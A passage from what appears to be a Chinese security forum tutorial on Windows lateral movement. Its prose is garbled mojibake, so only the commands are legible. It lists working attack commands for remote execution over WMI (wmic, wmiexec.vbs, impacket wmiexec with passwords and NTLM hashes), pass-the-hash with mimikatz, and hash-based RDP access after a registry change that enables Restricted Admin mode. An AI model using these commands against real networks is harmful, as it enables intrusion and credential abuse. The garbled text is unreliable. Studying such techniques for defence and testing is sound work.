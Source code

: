 ## [](https://bbs.pediy.com/thread-268289.htm)3.3
å©ç¨WMIæå¡è¿è¡æ¨ªåç§»å¨

WMIå©ç¨135ç«¯å£ï¼æ¯æææåhashä¸¤ç§æ¹å¼è¿è¡èº«ä»½éªè¯ï¼ä¸ç³»ç»æ¥å¿ä¸è®°å½ã  
ç¬¬ä¸ç§ï¼ä½¿ç¨ç³»ç»èªå¸¦çWMICææä¼
éæ§è¡ç¸åºå½ä»¤ï¼ä½æ§è¡çç»æä¸åæ¾ï¼å
ç®¡çåè´¦æ·ç»å½ï¼  
Wmic /node:192.168.202.148 /user:Administrator /password:zxcvbnm123 process
call create âcmd.exe /c ipconfig >C:/1.txtâ  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_M54H3UEQUZPHS4B.png)  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_Q8Z2H9ETEAN9SQZ.png)



ç¬¬äºç§ï¼ä½¿ç¨ç³»ç»èªå¸¦cscriptææä¼
éæ§è¡åå¼¹shellï¼æ§è¡ç»ææåæ¾ï¼ç°å·²è¢«æ  
Cscript //nologo wmiexec.vbs /shell 192.168.202.148 Administrator zxcvbnm123



ç¬¬ä¸ç§ï¼ä½¿ç¨ç¬¬ä¸æ¹impacketå¥ä»¶ä¸­çWmiexecè¿è¡æææhashä¼
éï¼æ§è¡ç»ææåæ¾  
Wmiexec test/Administrator:zxcvbnm123@192.168.202.148 âwhoamiâ  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_FDEV5ZVYREAXBRA.png)  
Wmiexec -hashes :fac5d668099409cb6fa223a32ea493b6
test/Administrator@192.168.202.148 âwhoamiâ  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_43FNE5ARNJR5FHY.png)

##
[](https://bbs.pediy.com/thread-268289.htm#3.4%E5%88%A9%E7%94%A8mimikatz%E8%BF%9B%E8%A1%8Cpth)3.4å©ç¨Mimikatzè¿è¡PTH

PTHæ¯æ»å»è éè¿LM HashåNTLM
Hashè®¿é®è¿ç¨ä¸»æºææå¡ï¼ä¸éæä¾ææå¯ç ãå½ç¦ç¨äºNTLM
Hashéªè¯æ¶ï¼ä¸è½ä½¿ç¨PsExecè¿è¡Hashä¼ éï¼mimikatzè¿æ¯å¯ä»¥ã  
Privilege::debug  
Sekurlsa::pth /user:Administrator /domain:test
/ntlm:fac5d668099409cb6fa223a32ea493b6  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_BRZGNT44RGY4J97.png)  
å ³äºKB22871997æ¯å¦è½é²æ¤PTHæ»å»ï¼  
Pthï¼æ²¡ææè¡¥ä¸æ¶ï¼ä»»ä½ç¨æ·é½å¯ä»¥è¿æ¥ï¼æäºè¡¥ä¸åªè½administratorè¿æ¥  
Ptkï¼æäºè¡¥ä¸åï¼ç¨æ·æè½å¯ä»¥è¿æ¥ï¼éç¨aes256è¿æ¥

## [](https://bbs.pediy.com/thread-268289.htm)3.5 å©ç¨RDPè¿è¡æ¨ªåç§»å¨

1ãä½¿ç¨ææå¯ç è¿æ¥RDP  
Windows: Mstsc.exe /console /v:192.168.202.148 /admin  
Linux: rdesktop 192.168.202.148:3389  
2ãä½¿ç¨hashè¿æ¥RDP  
ä½¿ç¨hash è¿æ¥éè¦Restricted Admin modeå¼å¯ï¼Windows server
2012é»è®¤å¼å¯äºï¼windows server 2008éè¦å®è£
2871997ã2973351è¡¥ä¸åï¼æ§è¡ä¸é¢å½ä»¤ï¼  
REG ADD âHKLM\System\CurrentControlSet\Control\Lsaâ /v
DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f  
å½å¼å¯åå°±è½ä½¿ç¨mimikatzè¿è¡hashè¿æ¥RDPï¼  
Privilege::debug  
Sekurlsa::pth /user:Administrator /domain:test
/ntlm:fac5d668099409cb6fa223a32ea493b6 â/run:mstsc.exe /restrictedadminâ

